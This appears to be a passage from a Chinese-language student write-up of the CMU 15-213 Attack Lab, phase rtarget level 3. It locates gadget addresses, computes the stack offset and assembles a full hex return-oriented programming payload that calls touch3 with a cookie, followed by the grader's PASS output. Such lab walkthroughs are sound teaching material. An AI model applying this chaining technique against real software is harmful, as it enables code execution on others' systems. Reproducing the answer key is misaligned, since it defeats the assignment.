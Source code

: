   这三段分别对应三步，`89 c2`，`401a42`；`89 d1`，`401a34`；`89 ce`，`401a27`

- 执行`lea`指令得出地址，地址为`4019d6`

- 将地址从`%rax`转入`%rdi`

  ```assembly
  00000000004019c3 <setval_426>:
    4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
    4019c9:	c3 
  ```

  `48 89 c7`对应地址`4019c5`

- 调用`touch3`，地址为`4018fa`

- 计算偏移量，前面共有9条地址加一个偏移量，相对于buf数组多占80字节。由于`%rsp`指向buf大8字节的位置（之前储存返回test函数的地址的8字节），所以偏移量为72=0x48，在这里后面的8字节存放cookie。

组装起来：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00  <-- movq %rsp, %rax
c5 19 40 00 00 00 00 00  <-- movq %rax, %rdi
ab 19 40 00 00 00 00 00  <-- popq %rax
48 00 00 00 00 00 00 00  <-- 偏移量
42 1a 40 00 00 00 00 00  <-- movl %eax, %edx
34 1a 40 00 00 00 00 00  <-- movl %edx, %ecx
27 1a 40 00 00 00 00 00  <-- movl %ecx, %esi
d6 19 40 00 00 00 00 00  <-- lea  (%rdi,%rsi,1),%rax
c5 19 40 00 00 00 00 00  <-- movq %rax, %rdi
fa 18 40 00 00 00 00 00  <-- touch3
35 39 62 39 39 37 66 61  <-- cookie 值
```

结果：

```bash
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 42 1A 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 27 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61
```

